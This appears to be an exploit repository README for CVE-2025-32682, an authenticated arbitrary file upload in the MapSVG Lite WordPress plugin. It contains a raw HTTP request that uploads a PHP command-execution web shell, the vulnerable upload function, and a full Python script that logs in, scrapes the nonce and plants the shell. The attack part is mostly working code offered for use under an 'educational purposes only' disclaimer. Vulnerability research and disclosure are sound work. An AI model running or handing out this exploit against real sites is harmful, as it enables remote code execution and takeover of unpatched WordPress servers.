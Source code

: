 # 🐚 CVE-2025-32682 - Arbitrary File Upload in MapSVG Lite <= 8.5.34

## 📌 Plugin Details
- **Name:** MapSVG Lite
- **Affected Version:** <= 8.5.34
- **Vulnerability Type:** Arbitrary File Upload
- **CVE ID:** CVE-2025-32682
- **Published Date:** 15 April, 2025
- **CVSS Score:** 9.9 (Critical)

---

## 💥 Vulnerability Summary
The `MapSVG Lite` plugin for WordPress does not validate file types when uploading SVG files via its REST API endpoint:

```
/wp-json/mapsvg/v1/svgfile
```

This allows an authenticated attacker (Subscriber+) to upload arbitrary PHP files disguised as SVG, resulting in remote code execution (RCE).

---

## 📎 Proof of Concept (POC) - Raw HTTP Request
```http
POST /wp-json/mapsvg/v1/svgfile HTTP/1.1

Host: 192.168.100.74:888

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://target.com/wp-admin/admin.php?page=mapsvg-config

X-WP-Nonce: 4febb3ff50

X-Requested-With: XMLHttpRequest

Content-Type: multipart/form-data; boundary=---------------------------155355665422604566641836454807

Content-Length: 298

Origin: http://192.168.100.74:888

Connection: keep-alive

Cookie:


-----------------------------155355665422604566641836454807

Content-Disposition: form-data; name="file"; filename="nxploit.php"

Content-Type: text/xml



<!--?php  
if(isset($_GET['cmd'])) {  
    system($_GET['cmd']);  
}  
?-->  

-----------------------------155355665422604566641836454807--


```

### 🔍 Vulnerable Code Snippet
The following vulnerable code snippet from the `mapsvg-lite-interactive-vector-maps.php` file highlights the issue:
```php
public function uploadSVG() {
    $file = $_FILES['file'];
    $upload = wp_upload_bits($file['name'], null, file_get_contents($file['tmp_name']));
    return new \WP_REST_Response(["file" => $upload], 200);
}
```
- ❌ **No filetype check**
- ❌ **No extension validation**
- ❌ **No sanitization of file contents**

This function is directly mapped to the REST endpoint `/wp-json/mapsvg/v1/svgfile`.

---

## 🧠 Exploitation Requirements
- ✅ Requires authentication (Subscriber+)
- 🛑 No filetype or content validation

---

## 🐍 POC 2 - Python Exploit Script
```python
# By: Nxploited | Khaled Alenazi
import requests
import argparse
import re

requests.packages.urllib3.disable_warnings()
session = requests.Session()
session.verify = False
user_agent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"

parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", required=True)
parser.add_argument("-un", "--username", required=True)
parser.add_argument("-p", "--password", required=True)
args = parser.parse_args()

login_url = f"{args.url}/wp-login.php"
resp = session.post(login_url, data={
    'log': args.username,
    'pwd': args.password,
    'rememberme': 'forever',
    'wp-submit': 'Log In'
}, headers={"User-Agent": user_agent})

if 'wordpress_logged_in' not in str(session.cookies):
    print("[-] Login failed")
    exit()
print("[+] Logged in successfully.")

nonce_page = session.get(f"{args.url}/wp-admin/admin.php?page=mapsvg-config")
match = re.search(r'"nonce":"([a-f0-9]+)"', nonce_page.text)
if not match:
    print("[-] Failed to extract nonce")
    exit()
nonce = match.group(1)
print(f"[+] Found nonce: {nonce}")

upload_url = f"{args.url}/wp-json/mapsvg/v1/svgfile"
print(f"[+] Uploading file to: {upload_url}")

payload = {'file': ('nxploit.php', '<?php if(isset($_GET[\'cmd\'])){ system($_GET[\'cmd\']); } ?>', 'application/x-php')}
headers = {
    'X-WP-Nonce': nonce,
    'Referer': f"{args.url}/wp-admin/admin.php?page=mapsvg-config",
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': user_agent
}

res = session.post(upload_url, files=payload, headers=headers)

try:
    json_res = res.json()
    print("[+] Server response (formatted):")
    print("File Name    :", json_res['file']['name'])
    print("URL          :", json_res['file']['relativeUrl'])
    print("Path Short   :", json_res['file']['pathShort'])
    print("Server Path  :", json_res['file']['serverPath'])
    print("\nExploited By : Nxploited | Khaled Alenazi")
except:
    print("[-] Upload failed or invalid response.")
```

---

## ☠️ Impact
Exploitation of this vulnerability allows an attacker to upload a `.php` web shell to the `/wp-content/uploads/mapsvg/` directory and execute arbitrary commands on the server.

---

## 👤  By:

**Nxploited | Khaled Alenazi**

---

## ⚠️ Disclaimer
This project is for **educational purposes only**. Unauthorized access to systems without permission is illegal.
